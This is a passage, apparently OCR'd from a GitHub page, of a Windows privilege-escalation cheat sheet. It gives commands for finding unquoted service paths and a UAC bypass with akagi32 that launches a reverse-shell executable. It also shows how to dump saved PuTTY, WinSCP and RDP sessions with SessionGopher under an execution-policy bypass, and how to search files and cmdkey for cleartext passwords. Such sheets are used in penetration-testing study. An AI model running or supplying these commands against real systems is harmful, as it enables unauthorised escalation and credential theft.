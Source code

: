 ```powershell
C:\Program.exe
C:\Program Files\canon\IJ.exe
```

- The following command will display affected services:

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

---

```powershell
tanter.exe <user name>
```

---

### UAC Bypass

```powershell
akagi32 <Key> <executable file>
```

```powershell
akagi32 10 c:\windows\system32\reverse_shell.exe
```

---

### Saved session information (PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP)

```powershell
powershell.exe -ep bypass -c Import-Module SessionGopher.ps1;Invoke-SessionGopher -Thorough
```

```powershell
SessionGopher.exe
```

---

### ClearText passwords

- Find all passwords in all files

```powershell
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
findstr /spin "password" *.*
```

- Credentials in cmdkey

```powershell
cmdkey /list
```
